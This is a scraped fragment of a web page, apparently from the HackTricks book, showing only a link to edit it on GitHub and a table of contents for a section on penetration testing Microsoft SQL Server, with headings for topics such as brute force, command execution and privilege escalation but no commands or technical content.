41.825-128.906-.01-39.771-9.818-76.454-29.414-110.049z' data-evernote-id='3036' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e) Edit on GitHub](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-mssql-microsoft-sql-server.md)

Contents

[Basic Information](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#basic-information)[Information](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#information)[Default MS-SQL System Tables](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#default-ms-sql-system-tables)[Info Gathering](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#info-gathering)[Metasploit](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#metasploit)[Brute force](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#brute-force)[Tricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#tricks)[Execute commands](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#execute-commands)[NTLM Service Hash gathering](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#ntlm-service-hash-gathering)[Abusing MSSQL trusted Links](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#abusing-mssql-trusted-links)[Read files executing scripts (Python and R)](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#read-files-executing-scripts-python-and-r)[From db_owner to sysadmin](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#from-db_owner-to-sysadmin)[Impersonation of other users](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#impersonation-of-other-users)[Using MSSQL for Persistence](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#using-mssql-for-persistence)[Having credentials](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#having-credentials)[Mssqlclient.py](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#mssqlclient-py)[sqsh](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#sqsh)[Manual](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#manual)[Post Explotation](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#post-explotation)